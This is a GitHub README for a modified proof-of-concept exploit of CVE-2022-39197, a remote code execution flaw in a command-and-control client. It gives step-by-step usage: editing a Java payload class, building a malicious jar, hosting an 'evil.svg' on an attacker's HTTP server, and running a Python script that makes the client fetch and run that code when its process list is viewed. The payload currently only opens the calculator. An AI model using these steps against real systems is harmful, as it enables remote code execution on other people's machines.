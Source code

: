 # CVE-2022-39197-RCE

## First
  This project was modified from [@its-arun](https://github.com/its-arun) project https://github.com/its-arun/CVE-2022-39197

  When I tested the script, I found that the frida script could not query the data in the normal order. The method of modifying the frida script to modify the process name.


Thanks to Master [@Kai5174](https://github.com/Kai5174) for his contribution to the utilization method.


### Usage

- **Prepare Payload**

1、Edit command executed with your payload in `EvilJar/src/main/java/Exploit.java`, now it can only play the calculator.

2、Build using jar `mvn clean compile assembly:single`

4、Move `EvilJar-1.0-jar-with-dependencies.jar` from `EvilJar/target/` to `serve/` folder

5、Edit `serve\evil.svg` replace `[attacker]` 

6、Serve using `python3 -m http.server 8080`

7、Generate beacon.exe with C2 version less than or equal to 4.7

8、You need to execute the py script on a Windows to go online, and perform countermeasures when the client accesses the process list and sees the beacon.exe process.


- **Execute Exploit**

```
python3 -m pip install -r requirements.txt
python3 cve-2022-39197_Yyy.py beacon.exe http://192.168.10.10:8080/evil.svg
```

Payload will be triggered as soon as the user scrolls through Process List

### POC

**Windows**
![1.png](./images/1.png)


**Mac**
![2.jpg](./images/2.jpg)


### Reference

[https://mp.weixin.qq.com/s/Eb0pQ-1ebLSKPUFC7zS6dg](https://mp.weixin.qq.com/s/Eb0pQ-1ebLSKPUFC7zS6dg) — There’s a great in depth analysis of this vulnerability
[https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html](https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html)

Modified https://github.com/its-arun/CVE-2022-39197
